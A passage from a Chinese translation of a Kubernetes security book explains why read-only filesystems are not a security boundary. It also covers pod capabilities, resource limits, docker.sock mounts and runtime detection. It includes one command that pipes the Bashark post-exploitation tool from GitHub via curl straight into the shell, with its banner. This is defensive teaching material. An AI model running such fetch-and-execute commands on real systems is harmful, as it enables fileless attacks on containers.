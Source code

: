 不可变性不是安全边界，因为代码可以从互联网下载并由解释器（如 Bash、PHP 和 Java）运行，而不使用文件系统，正如 `bashark` 后渗透工具所示：

```
root@r00t:/tmp [0]# source <(curl -s \
  https://raw.githubusercontent.com/redcode-labs/Bashark/master/bashark.sh)

__________               .__                  __               ________     _______
\______   \_____    _____|  |__ _____ _______|  | __ ___  __   \_____  \    \   _  \
 |    |  _/\__  \  /  ___/  |  \\__  \\_  __ \  |/ / \  \/ /    /  ____/    /  /_\  \
 |    |   \ / __ \_\___ \|   Y  \/ __ \|  | \/    <   \   /    /       \    \  \_/   \
 |______  /(____  /____  >___|  (____  /__|  |__|_ \   \_/ /\  \_______ \ /\ \_____  /
        \/      \/     \/     \/     \/           \/       \/          \/ \/       \/

[*] Type 'help' to show available commands

bashark_2.0$

```

像 */tmp* 和 */dev/shm* 这样的文件系统位置可能会始终可写，以支持应用程序行为，因此只读文件系统不能作为安全边界。不可变性可以防止一些恶意和自动化攻击，但不能作为坚固的安全边界。

诸如`falco`和`tracee`之类的入侵检测工具可以检测到容器中生成的新 Bash shell（或任何未列入白名单的应用程序）。此外，`tracee`还可以通过监视*/proc/pid/maps*中曾经可写但现在可执行的内存，检测到试图通过内存执行的恶意软件。

###### 注意

我们将在第九章中更详细地讨论 Falco。

### containers[] .securityContext .capabilities .drop | index(“ALL”)

您应始终放弃所有功能，并仅重新添加应用程序运行所需的那些功能。

### containers[] .securityContext .capabilities .add | index(“SYS_ADMIN”)

此能力的存在是一个警示信号：尝试找到其他部署容器的方法，或者部署到具有自定义安全规则的专用命名空间中，以限制妥协的影响。

### containers[] .resources .limits .cpu, .memory

限制容器可用内存的总量可以防止拒绝服务攻击将主机机器挤垮，因为容器会首先终止。

### containers[] .resources .requests .cpu, .memory

请求资源有助于调度程序有效地“装箱”资源。过度请求资源可能是对手试图将新 Pod 调度到其控制的另一节点的尝试。

### .spec .volumes[] .hostPath .path

可写的*/var/run/docker.sock*主机挂载允许突破到主机。攻击者可以将符号链接写入任何文件系统，这些文件系统容易受到漏洞，攻击者可以利用该路径来探索和从主机中渗透。

# 进入风暴眼

船长和船员进行了一次徒劳的袭击，但这并非他们的最后一次逃亡活动。

随着我们在这本书中的进展，我们将看到 Kubernetes Pod 组件如何与更广泛的系统交互，我们将见证 Hashjack 船长为利用它们而努力。

# 结论

为了安全地使用 Pod，需要对多个层次的配置进行保护，而您运行的工作负载是 Kubernetes 安全性的软肚腩。

Pod 是集群中的第一道防线，也是保护集群最重要的部分。应用程序代码经常变动，可能成为潜在的可利用漏洞源。

扩展锚和链的比喻，一个集群的强壮程度取决于其最弱的环节。为了能够被证明是安全的，您必须在流水线和准入控制中使用健壮的配置测试、预防性控制和策略，以及运行时入侵检测 —— 因为没有什么是绝对可靠的。
